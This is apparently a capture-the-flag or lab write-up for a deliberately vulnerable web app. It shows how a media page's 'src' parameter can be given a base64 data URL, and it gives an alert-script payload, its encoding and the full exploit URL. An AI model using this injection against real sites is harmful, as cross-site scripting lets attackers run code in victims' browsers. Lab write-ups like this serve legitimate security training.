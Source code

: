 # Data URL (XSS)

You can see the NSA (National Security Agency) logo in the homepage is loaded from a data URL.
```html
<a href="?page=media&amp;src=nsa">
	<img src="images/nsa_prism.jpg" alt="">
</a>
```

If we access to the image URL: `/?page=media&src=nsa`, we can see the image is loaded from a data URL (check the Network tab in the browser developer tools). In this way we can add our own file to the data URL and execute it in the browser. Doing `/?page=media&src=mycustomfile` won't work because the file is not in the server, but we can use a data URL to load our own file. To do this, we need to encode our file in base64. Example:
```html
<script>alert('banger');</script>
```
In base64, this will be:
```
PHNjcmlwdD5hbGVydCgnYmFuZ2VyJyk7PC9zY3JpcHQ+
```
Then we can create a data URL like this:
```html
data:text/html;base64,PHNjcmlwdD5hbGVydCgnYmFuZ2VyJyk7PC9zY3JpcHQ+
```
And then we can use it in the URL:
```
/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnYmFuZ2VyJyk7PC9zY3JpcHQ+
```